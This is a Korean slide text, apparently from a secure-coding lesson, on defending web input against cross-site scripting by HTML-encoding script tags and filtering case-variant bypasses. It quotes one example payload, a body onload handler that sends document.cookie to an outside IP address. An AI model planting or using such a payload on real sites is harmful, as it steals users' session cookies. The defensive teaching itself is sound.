

: XSS[Cross Site Script] 공격
입력 받은 strContent에서 <script>를 &lt;script&gt;로 html Encodin해서 저장하거나 아니면 저장된 텍스트를 받을 때 html Encoding을 해서 화면에 보여주도록 할 수도 있음
위에서 작성한 코드로는 대문자로 이루어졌거나 대소문자가 섞인 script 태그와 같이   Encoding 처리를 우회하는 공격은 처리할 수 없기 때문에 공격 가능성이 있는 텍스트를 확인해서 Filtering 할 수 있는 작업이 필요(ex.  replace 대소문자 구분 없이, replace(strContent, "<script>", "&lt;script&gt;", 1, -1, vbTextCompare) )
XSS 공격이 가능한 스크립트 코드에 대한 정보는 관련 사이트를 참고해서 서비스에 영향이 없는 선에서 html Encoding을 해줄 필요가 있음 (ex. <body onload = "i.src = 'http://10.10.10.20/getcookie.php?cookie = '+document.cookie"> 과 같이 script 태그 없이도 공격 가능한 코드를 작성할 수 있음
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet